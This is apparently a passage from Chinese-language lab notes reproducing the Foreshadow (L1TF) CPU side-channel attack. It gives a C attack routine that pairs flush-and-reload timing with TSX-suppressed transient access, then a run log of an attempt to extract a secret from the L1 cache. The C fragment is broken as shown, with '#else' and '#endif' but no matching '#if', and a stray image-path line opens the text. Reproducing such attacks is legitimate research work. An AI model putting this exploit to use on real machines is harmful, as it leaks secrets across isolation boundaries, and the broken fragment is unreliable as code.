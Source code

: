 模拟实验得到的结果符合预期。

## 输出测信道预测结果

通过修改代码直接性输出测信道的时间戳，发现是每次都会存在一个结果是预测成功的。

```c
static inline int __attribute__((always_inline)) foreshadow_round(void *adrs)
{
    void *slot_ptr;
    int i, fault_fired = 0;
    for (i=0; i < NUM_SLOTS; i++)
    {
        slot_ptr = SLOT_OFFSET( fs_oracle, i );
        flush( slot_ptr );

        /* Use TSX transaction support for exception supression */
        if ( rtm_begin() == 0 )
            transient_access(fs_oracle, adrs, SLOT_SIZE);

        if (reload( slot_ptr ) < fs_reload_threshold)
            return i;
    }
    #else
    for (i=0; i < NUM_SLOTS; i++)
        flush( SLOT_OFFSET( fs_oracle, i ) );

    transient_access(fs_oracle, adrs, SLOT_SIZE);

    for (i=0; i < NUM_SLOTS; i++){
        /* this is custom code */
        int tmpTime = reload(SLOT_OFFSET(fs_oracle, i));
        if(tmpTime < fs_reload_threshold){
            printf("测信道时间戳：%d，序号：%d\n", tmpTime, i);
            return i;
        }
    }
    #endif

    return 0;
}
```

[📎foreshadow-result-修改汇编输出.txt](https://www.yuque.com/attachments/yuque/0/2025/txt/34580676/1744201657319-80226b0d-ee0f-4533-a021-b57d734d3e99.txt)

```c
[main.c] extracting secret from L1 cache..
SIGSEGV错误发生第1次
测信道时间戳：84，序号：255
SIGSEGV错误发生第2次
测信道时间戳：86，序号：255
SIGSEGV错误发生第3次
测信道时间戳：78，序号：255
SIGSEGV错误发生第4次
测信道时间戳：84，序号：255
SIGSEGV错误发生第5次
测信道时间戳：84，序号：255
SIGSEGV错误发生第6次
测信道时间戳：88，序号：255
SIGSEGV错误发生第7次
测信道时间戳：86，序号：255
SIGSEGV错误发生第8次
测信道时间戳：86，序号：255
SIGSEGV错误发生第9次
```